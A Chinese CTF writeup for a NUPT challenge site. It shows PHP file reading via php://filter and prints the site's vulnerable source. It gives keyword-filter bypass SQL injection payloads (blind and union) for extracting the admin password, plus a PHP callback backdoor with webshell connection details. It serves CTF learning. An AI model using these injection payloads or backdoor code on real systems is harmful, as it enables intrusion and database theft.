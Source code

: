```yaml
---
title: 南邮CTF平台综合题2writeup
tags: [sqli , ctf ]
date: 2017-10-04 21:04:34
categories: writeup
comments: false
description: 通过SQL注入得到后台登陆密码，连接管理员自用的回调后门。
---
```


> 非xss题 但是欢迎留言~
> 地址：[get the flag](http://cms.nuptzj.cn/)

## 读取源码

在页面底部发现一个这样的链接：*http://cms.nuptzj.cn/about.php?file=sm.txt* ，说明题目提供了读取文件功能，如果使用 *[file://协议](http://php.net/manual/en/wrappers.file.php)* 读取，HTML预留字符会以字符实体显示，看起来不方便，所以也可以编码读取后再本地解码。

```php
http://cms.nuptzj.cn/about.php?file=php://filter/convert.base64-encode/resource=filename
在拿到的文件里搜索 ".php" ，顺藤摸瓜，能找到并读取到的文件有：
  sm.txt
  about.php
  index.php
  passencode.php
  say.php
  antixss.php
  so.php
  preview.php
  antiinject.php
  -----------------------------
  知道有 loginxlcteam目录或文件 和 config.php 但还读不到 ；还不知道有list.php ,xlcteam.php
```

### 关于*file://协议*

 *file://协议* ([RFC8089](https://tools.ietf.org/html/rfc8089) )是用来访问本地文件系统的，因为文件系统 是 PHP 使用的默认封装协议，因此在fopen()、 copy()、 file_exists() 、 file_get_contents()和 filesize() 等文件系统函数中是支持的。

在谷歌/火狐浏览器的URL框里输入  *file:///D:/*  或者在Linux命令行里敲 *lynx file:///* 都可以看到效果。

[PHP文档](http://php.net/manual/en/wrappers.file.php#refsect1-wrappers.file-usage) 提供的用法如下：

> - /path/to/file.ext
> - relative/path/to/file.ext
> - fileInCwd.ext
> - C:/path/to/winfile.ext
> - C:\path\to\winfile.ext
> - \\smbserver\share\path\to\winfile.ext
> - file:///path/to/file.ext

### 关于PHP的过滤器(*php://filter*)

 [php://filter](http://php.net/manual/en/wrappers.php.php#wrappers.php.filter) 和 [可用的过滤器列表](http://php.net/manual/en/filters.php)。主要用在数据流内容读取之前做些筛选过滤，可指定过滤器应用在读模式还是写模式，不指定则两者都应用，也可复合使用多个过滤器，使用管道符隔开即可。

对于CTFer典型的用法像是这样：

> php://filter/read= < filter list to apply to read chain >/resource= < stream to be filtered >
>
> php://filter/read=string.toupper|string.rot13/resource=https://findneo.github.io/
>
> php://filter/convert.base64-encode/resource=filename

常用过滤器列表：

* String Filters
  * string.rot13
  * string.toupper
  * string.tolower
  * string.strip_tags
* Conversion Filters
  * convert.base64-encode & convert.base64-decode
  * convert.quoted-printable-encode & convert.quoted-printable-decode
* Compression Filters
* Encryption Filters

## 注入

全局搜索 *mysql_query* ，发现 *say.php,so.php,index.php* 都存在数据库操作。选择 *so.php* 下手。

```php
/*so.php*/
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
---------------------------------------------------------------------------------------
/*antiinject.php*/
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

 关注 3、11、14、15行。

1. burp抓包，修改 *User-Agent* 字段即可。

2.  *antiinject()* 过滤规则是按黑名单***依次***把关键字删除。

   1. 用黑名单里最后一个关键字 `=` 分隔即可绕过对多字符关键字的过滤。
   2. 用 `/**/` 代替空格符。
   3. 单字符关键字不太会弄，也许可以用各种编码绕过，不过我们暂时未必需要，有空格和这些多字符关键字，再加上不在黑名单里的 `<>/()` 已经可以开始搞事了。

3.  *mysql_real_escape_string()* 的功能是对`\x00, \n, \r, \, ', " , \x1a(撤销键,ctrl+z)` 加反斜杠转义，我们不用这些字符就是了。

4. 15行处将处理过的参数直接拼接到查询语句，因为查询结果有多列，又没有逗号可用，不好用内联注入，于是尝试基于逻辑的注入。数据库结构在 *sm.txt* 已经给出。

5.  ```sql
   我们想要在数据库执行的查询语句是这样：
   SELECT * FROM `message` WHERE display=1 AND id=1 and ascii(mid((select userpass from admin)from 1 for 1))>65

   因为没法用空格，所以实际上是这样：
   SELECT * FROM `message` WHERE display=1 AND id=   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   希望经过过滤的 id 值为：
   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   向 so.php post过去的参数应该是：
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/1/**/fo=r/**/1))>65

   使用burp爆破
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/§1§/**/fo=r/**/1))>§65§
   使用 Cluster Bomb 模式，第一个payload 为 [1-40] ，第二个为 [31,32,47-57](经过几次尝试发现usepass字段只有[ \d] )
   得到[49,48,50,32,49,49,55,32,57,57,32,49,48,55,32,49,49,52,32,48,49,55,32,49,49,48,32,49,49,54,32,49,49,55]
   也就是[102 ,117 ,99 ,107 ,114 ,117 ,110 ,116 ,117]即funckruntu，访问loginxlcteam登陆即可

   进后台得知有管理员留的后门 xlcteam.php ，于是读一下这个文件
   ```

## 意外

看别人的writeup时惊喜的发现原来并没有过滤逗号，这意味着可以一次注出来管理员密码！所以深夜里我是有些激动的。

```
soid=1/**/an=d/**/0/**/unio=n/**/selec=t/**/null,usernam=e,userpas=s,null/**/fro=m/**/admi=n

//当然，在充分掌握数据库结构前需要一些尝试。
```

## 使用回调后门

回调后门似乎是 phithon 师傅最先这样称呼的，在 [*创造tips的秘籍——PHP回调后门* ](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)里做了具体介绍。

```php
//xlcteam.php
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
  //使用菜刀连接即可。
  //url : http://cms.nuptzj.cn/xlcteam.php?www=preg_replace
  //密码:	wtf
```

菜刀连上后拿到所有文件，发现 config.php 里有数据库配置，于是就可以操作整个数据库了。

是的，中午吃的是美味的黄焖鸡 \o/



![](cmsnupt.png)

![](arlogined.png)